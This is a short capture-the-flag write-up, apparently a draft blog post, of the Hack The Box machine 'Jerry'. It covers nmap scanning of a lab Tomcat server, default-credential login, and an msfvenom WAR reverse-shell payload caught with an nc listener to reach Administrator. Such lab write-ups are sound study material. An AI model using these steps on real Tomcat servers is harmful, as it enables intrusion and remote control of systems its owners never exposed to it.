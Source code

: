 ```yaml
---
title: "Jerry HTB"
date: 2024-07-16T16:38:48-07:00
draft: true
---
```


This is a test post I want to explore how some things translate fom my Obsidian volt with minamal edits. 

```sh
 IP=10.10.10.95

nmap -Pn -p- -oN nmap-p $IP --min-rate=1000

PORT     STATE SERVICE
8080/tcp open  http-proxy


 nmap -Pn -p 8080 -sCV -v -oN nmap-sCV $IP

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
```

Getting possible default passwords with 
```sh
 cp ~/SecList/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt .
 cat tomcat-betterdefaultpasslist.txt
admin:
admin:admanager
admin:admin
ADMIN:ADMIN
<snip>
``` 

![[Pasted image 20240716151741.png]]

With a field login attempt with `admin:admin` with burp suite to get the formatting for hydra we got an 403 page with this information in it. So next tried `tomcat:s3cret` and logged in.

looking at the file upload we see that it only takes war files so the best way i am finding is to 

````sh
msfvenom -p java/shell_reverse_tcp lhost=tun0 lport=4321 -f war -o pwn.war

# and 

nc -lvnp 4321

# we could also use metainterpritor 

````

then opend the page and in the nc window we get 
```cmd
C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
700<snip>d00

root.txt
04a<snip>90e

```
